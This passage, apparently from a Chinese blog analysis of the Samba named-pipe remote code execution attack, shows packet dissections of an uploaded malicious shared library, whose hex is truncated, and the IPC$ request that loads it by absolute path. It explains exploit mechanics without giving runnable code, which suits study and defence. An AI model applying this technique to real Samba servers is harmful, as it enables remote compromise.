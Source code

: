 	            [Closed in: 42]
	            [File Name: \RpvVExex.so]
	            [Create Flags: 0x00000000]
	            [Access Mask: 0x00000000]
	            [File Attributes: 0x00000000]
	            [Share Access: 0x00000000]
	            [Create Options: 0x00000000]
	            [Disposition: Supersede (supersede existing file (if it exists)) (0)]
	        Offset: 0
	        Reserved: ffffffff
	        Write Mode: 0x0008
	        Remaining: 476
	        Data Length High (multiply with 64K): 0
	        Data Length Low: 476
	        Data Offset: 63
	        High Offset: 0
	        [File Offset: 0]
	        [File RW Length: 476]
	        Byte Count (BCC): 476
		Data (476 bytes) #上传二进制数据
		    Data: 7f454c4602010100000000000000000003003e0001000000...
		    [Length: 476]

	2 ) 以命名管道方式请求恶意动态库

	![Samba]({{ '/styles/images/Samba/6.png' | prepend: site.baseurl  }})
	
	第120个包NT Create AndX Request 请求命名管道资源数据，如下所示：

		SMB (Server Message Block Protocol)
	    SMB Header
	        Server Component: SMB
	        SMB Command: NT Create AndX (0xa2)
	        Error Class: Success (0x00)
	        Reserved: 00
	        Error Code: No Error
	        Flags: 0x18, Canonicalized Pathnames, Case Sensitivity
	        Flags2: 0x2801, Execute-only Reads, Extended Security Negotiation, Long Names Allowed
	        Process ID High: 0
	        Signature: 0000000000000000
	        Reserved: 0000
	        Tree ID: 41877  (\\192.168.159.130\IPC$) #使用IPC$命名管道方式
	        Process ID: 29095
	        User ID: 40135
	        Multiplex ID: 34467
	    NT Create AndX Request (0xa2)
	        Word Count (WCT): 24
	        AndXCommand: No further commands (0xff)
	        Reserved: 00
	        AndXOffset: 0
	        Reserved: 00
	        File Name Len: 16
	        Create Flags: 0x00000016
	        Root FID: 0x00000000
	        Access Mask: 0x02000000
	        Allocation Size: 0
	        File Attributes: 0x00000000
	        Share Access: 0x00000007, Read, Write, Delete
	        Disposition: Open (if file exists open it, else fail) (1)
	        Create Options: 0x00000000
	        Impersonation: Impersonation (2)
	        Security Flags: 0x00
	        Byte Count (BCC): 17
	        File Name: /tmp/RpvVExex.so  # 管道名称即为前面上传文件的绝对路径
